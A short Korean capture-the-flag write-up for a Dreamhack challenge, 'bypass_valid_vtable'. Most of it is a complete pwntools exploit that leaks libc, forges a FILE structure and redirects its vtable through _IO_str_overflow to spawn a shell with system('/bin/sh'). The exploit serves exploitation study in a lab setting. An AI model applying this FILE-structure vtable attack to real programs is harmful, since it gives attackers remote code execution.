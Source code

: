 보호기법 체크

![](https://i.imgur.com/Fq9xSdb.png)

stdout 주소를 알려줌

![](https://i.imgur.com/9Tvp1d0.png)
fp를 참조하여 입력하 vtable overwrite를 알 수 있다.

익스코드

```python
from pwn import *
e = ELF("./libc.so.6")
e1 = ELF("./bypass_valid_vtable")
p = remote("host3.dreamhack.games", 16116)
p.recvuntil("stdout: 0x")
stdout = int(p.recv(12), 16)
libc_base = stdout - e.symbols["_IO_2_1_stdout_"]
io_file_jumps = libc_base + e.symbols['_IO_file_jumps']
io_str_overflow = io_file_jumps + 0xd8
io_str = libc_base + e.symbols['_IO_file_overflow']
system = libc_base + e.symbols["system"]
fp = e1.symbols['fp']
binsh_off = next(e.search(b"/bin/sh"))
binsh = libc_base + binsh_off
buf_end = (binsh - 100) // 2
vtable = io_str_overflow - 0x10
ex = p64(0x0) #flag
ex += p64(0x0) #read_ptr
ex += p64(0x0) #read_end
ex += p64(0x0) #read_base
ex += p64(0x0) #write_base
ex += p64(buf_end) #write_ptr
ex += p64(0x0) #write_end
ex += p64(0x0) #buf_base
ex += p64(buf_end) #buf_end
ex += p64(0x0) #save_base
ex += p64(0x0) #backup_base
ex += p64(0x0) #save_end
ex += p64(0x0) #marker
ex += p64(0x0) #chain
ex += p64(0x0) #fileno + flags2
ex += p64(0x0) #old_offset
ex += p64(0x0) #_cur_column + _vtable_offset + _shortbuf
ex += p64(fp + 0x10) #lock
ex += p64(0x0) * 0x9
ex += p64(vtable) #vtable
ex += p64(system)
p.sendlineafter("Data: ", ex)
p.interactive()
```
